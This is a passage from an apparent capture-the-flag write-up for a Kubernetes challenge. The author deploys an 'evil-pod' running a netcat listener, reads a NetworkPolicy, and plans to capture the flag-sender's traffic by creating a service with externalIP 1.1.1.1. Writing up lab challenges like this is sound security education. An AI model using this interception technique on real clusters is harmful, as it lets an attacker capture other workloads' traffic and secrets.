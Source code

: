 ```shell
      allowPrivilegeEscalation: false
      runAsNonRoot: true
      runAsUser: 1000 
      capabilities:
        drop:
        - ALL
      seccompProfile:
        type: RuntimeDefault

rayanlecat@potluck2023 /workspace # kubectl apply -f pod.yml --namespace=flag-reciever
pod/evil-pod created
```

The question now is how to ensure that a pod in the flag-sender namespace can communicate with a pod in the flag-reciever namespace. To answer this question, let's take a look at networkpolicies:

```shell
rayanlecat@potluck2023 /workspace # kubectl get networkpolicies --namespace=flag-reciever         
NAME            POD-SELECTOR   AGE
flag-reciever   <none>         17m

rayanlecat@potluck2023 /workspace # kubectl describe networkpolicies --namespace flag-reciever
Name:         flag-reciever
Namespace:    flag-reciever
Created on:   2023-12-29 15:50:55 +0100 CET
Labels:       <none>
Annotations:  <none>
Spec:
  PodSelector:     <none> (Allowing the specific traffic to all pods in this namespace)
  Allowing ingress traffic:
    To Port: <any> (traffic allowed to all ports)
    From:
      NamespaceSelector: ns=flag-sender
      PodSelector: app=flag-sender
  Allowing egress traffic:
    <none> (Selected pods are isolated for egress connectivity)
  Policy Types: Ingress, Egress
  ```

  We can see that a rule has been set up to authorize all ingress traffic from the flag-sender application in the flag-sender namespace to all pods in the flag-reciever namespace, so normally if I manage to create a service with externalIP 1.1.1.1 that exposes port 80 on the container of a pod I control, I should be able to retrieve the flag. To do this, the first step is to open a listening port on a :

  ```shell
  rayanlecat@potluck2023 /workspace # cat pod.yml
apiVersion: v1
kind: Pod
metadata:
  name: evil-pod
  namespace: flag-reciever
spec:
  containers:
  - name: evil-container
    image: busybox
    ports:
      - containerPort: 80
    args: ["sh", "-c", "while true; do nc -l -v -p 80; done"]
    resources:
      requests:
        memory: "50M"
        cpu: "50m"
      limits:
        memory: "100M"
  ```